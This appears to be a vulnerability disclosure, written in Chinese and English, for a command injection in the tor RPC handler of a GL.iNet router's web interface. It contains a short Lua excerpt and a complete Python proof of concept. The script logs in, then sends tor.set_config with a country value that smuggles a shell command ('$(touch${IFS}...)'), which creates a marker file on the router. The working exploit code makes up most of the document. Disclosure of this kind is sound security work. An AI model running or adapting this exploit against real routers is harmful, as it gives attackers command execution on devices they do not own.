

# 漏洞1 tor命令注入。

```lua
1. tor.set_config 设置uci
2. 后续在命令中进行读取，然后发现excute漏洞
```

`usr/lib/oui-httpd/rpc/tor`

```lua
local enable = params.enable
local manual = params.manual and 1 or 0
local countries = params.countries or {}

if manual == 1 and enable then
    for _, v in ipairs(countries) do
        countries_info[#countries_info + 1] = v
    end
    c:set("tor", "global", "countries", table.concat(countries_info, " "))
end

if enable == true then
    ...
    tor_on()
en
```



`tor_on()` it calls `replace_country()`:


接着在这里实现了命令注入：


成功执行命令：


```python
#!/usr/bin/env python3
from __future__ import annotations

import argparse
import hashlib
import json
import ssl
import subprocess
import urllib.error
import urllib.request

class GLInetError(RuntimeError):
    pass

class GLInetClient:
    def __init__(self, base_url: str, username: str, password: str, timeout: int = 20, verify_ssl: bool = False):
        self.base_url = base_url.rstrip("/")
        self.username = username
        self.password = password
        self.timeout = timeout
        self.sid = None
        self._ssl_context = ssl.create_default_context() if verify_ssl else ssl._create_unverified_context()

    def _open(self, req: urllib.request.Request) -> bytes:
        try:
            with urllib.request.urlopen(req, timeout=self.timeout, context=self._ssl_context) as resp:
                return resp.read()
        except urllib.error.HTTPError as exc:
            raise GLInetError(f"HTTP {exc.code}: {exc.read().decode(errors='replace')}") from exc
        except urllib.error.URLError as exc:
            raise GLInetError(f"Connection failed: {exc}") from exc

    def _post_json(self, path: str, obj: dict) -> dict:
        req = urllib.request.Request(
            f"{self.base_url}{path}",
            data=json.dumps(obj).encode(),
            headers={"Content-Type": "application/json"},
            method="POST",
        )
        return json.loads(self._open(req).decode())

    def login(self) -> str:
        challenge = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 1, "method": "challenge", "params": {"username": self.username}},
        )
        if "error" in challenge:
            raise GLInetError(f"challenge failed: {challenge['error']}")

        salt = challenge["result"]["salt"]
        nonce = challenge["result"]["nonce"]
        crypt_pw = subprocess.check_output(["openssl", "passwd", "-1", "-salt", salt, self.password], text=True).strip()
        digest = hashlib.md5(f"{self.username}:{crypt_pw}:{nonce}".encode()).hexdigest()

        login = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 2, "method": "login", "params": {"username": self.username, "hash": digest}},
        )
        if "error" in login:
            raise GLInetError(f"login failed: {login['error']}")

        self.sid = login["result"]["sid"]
        return self.sid

    def ensure_login(self) -> str:
        return self.sid or self.login()

    def rpc_call(self, obj: str, method: str, args: dict | None = None):
        resp = self._post_json(
            "/rpc",
            {"jsonrpc": "2.0", "id": 3, "method": "call", "params": [self.ensure_login(), obj, method, args or {}]},
        )
        if "error" in resp:
            raise GLInetError(f"rpc call failed: {resp['error']}")
        return resp.get("result")

def build_payload(target_file: str, country_prefix: str = "US") -> str:
    shell_body = f"touch${{IFS}}{target_file}"
    return f"{country_prefix}$({shell_body})"

def main() -> int:
    parser = argparse.ArgumentParser(description="Minimal C1 tor.set_config PoC: only writes a marker file on the target.")
    parser.add_argument("--base-url", default="http://192.168.8.1")
    parser.add_argument("--username", default="root")
    parser.add_argument("--password", default="12345678Q!")
    parser.add_argument("--country-prefix", default="US")
    parser.add_argument("--target-file", default="/tmp/pwntest", help="Target file to create on the router")
    args = parser.parse_args()

    payload = build_payload(args.target_file, args.country_prefix)

    client = GLInetClient(args.base_url, args.username, args.password)
    sid = client.login()

    print(f"[+] sid        : {sid}")
    print(f"[+] target file: {args.target_file}")
    print(f"[+] payload    : {payload}")

    result = client.rpc_call(
        "tor",
        "set_config",
        {
            "enable": True,
            "manual": True,
            "countries": [payload],
        },
    )

    print(f"[+] rpc result : {result}")
    print("[+] trigger sent")
    print(f"[+] check on target whether {args.target_file} exists")
    return 0

if __name__ == "__main__":
    raise SystemExit(main())

```